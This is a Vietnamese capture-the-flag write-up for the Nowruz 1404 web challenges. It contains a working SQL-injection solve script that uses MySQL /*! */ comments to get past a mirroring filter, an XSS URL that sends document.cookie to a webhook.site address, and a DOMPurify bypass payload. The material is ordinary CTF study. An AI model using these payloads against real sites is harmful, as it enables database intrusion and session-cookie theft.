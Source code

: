 # Nowruz 1404 CTF

## web3

### Overview

Một challenge có lẽ level medium đầu tiên mà mình thật sự hiểu, context cụ thể ngắn gọn thì bài này bị dính SQLi trong LIKE clause của MySQL, và trước khi đi tới được LIKE clause này thì input của mình đã đi qua 1 hàm tên là mirrorify với nội dung dưới đây:

```python
function mirrorify($query) 
    $s_query = str_replace(["--", "#"], "?", $query);
    $trans = [
        "(" => ")", ")" => "(",
        "<" => ">", ">" => "<",
        "[" => "]", "]" => "[",
        "{" => "}", "}" => "{",
    ];
    
    $m_query = strtr($s_query, $trans);
    return $s_query . strrev($m_query);
}
```

Tóm gọn lại nội dung hàm mirrorify, ta có:
* Đầu tiên input sẽ nhận vào ở param ?query=...., sau đó nó sẽ filter mất 2 cách comment phổ biến trong MySQL là `#` và `--` 
* Tiếp theo, nó sẽ tìm và thay thế tất cả các ký tự như cách thể hiện trong mảng trans, kiểu mirror lại từ ( => ), từ { => } và ngược lại,...
* Cuối cùng, nó sẽ return lại string kết quả finalRes = (res sau bước 1) + (res sau bước 1 và 2)

### Solution

Theo mình nhìn thấy sau khi giải end và được đọc writeup thì bài này có 2 vấn đề chính ta cần phải giải quyết, đầu tiên là làm như nào để nối/thực thi được một câu query khác nghe có vẻ dễ nhưng ta phải giải quyết đồng thời cả vấn đề hai là làm như nào để syntax vẫn đúng kể cả khi nó bị nối 2 xâu cực lỏ chả liên quan gì lại với nhau?

Để trả lời cho câu hỏi 1, ta có khá nhiều cách, nhưng làm sao để cả vấn đề 1 và vấn đề 2 cùng được giải quyết 1 lúc thì khá khó.

Intended Solution của bài này là một case khá mới (hoặc là do mình gà nên chưa biết) là cách sử dụng comment `/* */ ` với trường hợp đặc biệt là `/*! */` còn nó sú như nào thì có thể đọc thêm ở [đây](https://dev.mysql.com/doc/refman/8.4/en/comments.html#:~:text=/*!%20MySQL-specific%20code%20*/)

> Tóm tắt cho document ở trên thì nếu ta sử dụng comment đặc biệt trong MySQL `/*! */`, câu query bên trong sẽ được thực thi 

Vậy tại sao việc phát hiện ra điều này lại quan trọng? Đơn giản bởi vì nếu ta reverse lại nó, `/* !*/` thì bên trong sẽ hoàn toàn là 1 comment, nó sẽ hoàn toàn thoả mãn syntax của 1 query hợp lệ kể cả mình có viết gì ở payload gốc chưa reverse

Ok vấn đề bây giờ là xây dựng được 1 payload thoả mãn thôi, và nó có thể là 1 trong 2 payload này mình lụm được khi đọc wu của các player

```
A\") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE \"FLAG_%\"), NULL */ +
```

> => Sau khi mapping ở mảng trans, kết hợp với reverse ta sẽ có
```
+ /* LLUN ,("\%_GALF"\ EKIL eman_elbat EREHW selbat.amehcs_noitamrofni MORF eman_elbat TCELES) ,LLUN ,LLUN TCELES NOINU !*/ ("\A
```

Cuối cùng sẽ return về:

```
A\") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE \"FLAG_%\"), NULL */ ++ /* LLUN ,("\%_GALF"\ EKIL eman_elbat EREHW selbat.amehcs_noitamrofni MORF eman_elbat TCELES) ,LLUN ,LLUN TCELES NOINU !*/ ("\A
```

và damn, nó 100% phù hợp với syntax sau khi kết hợp với query ban đầu:

quên chưa cho query ban đầu
```
SELECT * FROM series WHERE name LIKE (\"%${user_input}%\")
```

```
SELECT * FROM series WHERE name LIKE ("%A") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE "FLAG_%"), NULL */ ++ /* LLUN ,("%_GALF" EKIL eman_elbat EREHW selbat.amehcs_noitamrofni MORF eman_elbat TCELES) ,LLUN ,LLUN TCELES NOINU !*/ ("A%")
```

Ngoài ra có 1 cách khác là thay vì sử dụng +, ta sẽ sử dụng - ở cuối để comment lại phần đằng sau. Nhưng nhìn chung logic gần như là tương tự

Full script solve:

```python
import re
import requests

url = "https://blackmirror-chall.fmc.tf/"

def make_query(query):
    response = requests.get(url, params={"query": query})
    return response.text
# https://dev.mysql.com/doc/refman/8.4/en/comments.html#:~:text=/*!%20MySQL-specific%20code%20*/
# the one need to exploit into:
# SELECT * FROM series WHERE name LIKE (\"%${mirrorified}%\")
# The intended solution was to use the Mysql special comment => thats: /*!  sql */
sql = "SELECT table_name FROM information_schema.tables WHERE table_name LIKE \"FLAG_%\""
q1 = f"A\") /*! UNION SELECT NULL, NULL, ({sql}), NULL */ +"

print(q1) # q1= A") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE "FLAG_%"), NULL */ +
r1 = make_query(q1)
idx = r1.rfind("FLAG_")
flag_table = r1[idx:idx+29]
print(f"[+] Table name: {flag_table}")

# second query: get the flag
q2 = f"A\") /*! UNION SELECT NULL, NULL, (SELECT flag FROM {flag_table}), NULL */ +"
r2 = make_query(q2)
flag = re.search("FMCTF{.+}", r2).group()
print(f"[+] FLAG: {flag}")
```

## web1

![image](https://hackmd.io/_uploads/rkzsHEQ21e.png)

`https://shahname-chall.fmc.tf/?count=1%22);fetch(%22https://webhook.site/65f5a9e4-8707-42e6-a2be-64a6e4c54251?cookie=%22%2BencodeURI(document.cookie));//%22`

`https://shahname-chall.fmc.tf/?count=1");alert(1);//"`


## web2:

```
seen1: S4bZz3hhH, in /ohhh-ive-seen-a-seen that resolved in robots.txt
seen2: S1IIr, in the /sitemap.xml
seen3: S1iBb, the value of data-value attr of the <input> in the page-source
seen4: S4Am4n0Oo, in the page-source's comments
seen5: Se3nJ3dDd, /xor-key, while trying to get the seen7
seen6: SOonb0Ll, b64 encoded in the index's request's header
seen7: Se3kKke3, after using Sec-Fetch-Dest: 7seen and ?name=Hajji+firuz, it was xored with the xor-key that mentioned in seen5
```


## web4:




hi mọi người, do hôm qua em có làm một challenge xss mà em chưa hiểu cách payload hoạt động nên xin phép được hỏi trên này mong được mn chỉ giáo ạ

Vì giải đã end nên em xin gửi lại description em quên k cap lại ảnh nhưng nôm na là họ cho 2 url trong đó 1 của challenge, 1 là của con bot để truy cập đường dẫn. Flag nằm trong cookie của con bot này. Hint của challenge này là `why <script>1337</script> worked but <script>alert(1)</script> don't`? Phía dưới là file họ cung cấp ạ

![image](https://hackmd.io/_uploads/H1RAKrH2Jg.png)

Ban đầu ý tưởng của em là định sử dụng cve-2025-26791 vì nó áp dụng cho DOMPurify ver <3.2.4 bài này dùng 3.2.3 nhưng em chưa giải được. Sau khi giải end em có đọc writeup của một player thì họ sử dụng `<noscript><style>/*</noscript><img%20src%20onerror=alert(1)>*/` và cái img tag thay vì ở trong comment của tag style thì nó lại nhảy được ra ngoài và được thực thi (Lẽ ra các event attribute nguy hiểm sẽ bị DOMPurify block)?
    
Em có thể xin những cách giải thích thêm về cách browser hoạt động sau khi truyền vào payload được không ông b kia giải thích em thấy sú quá k hiểu gì 
`<noscript><style>/*</noscript><img%20src%20onerror=alert(1)>*/`
![image](https://hackmd.io/_uploads/S1a3OHSn1x.png)


Summarize writeup for xss challenge:

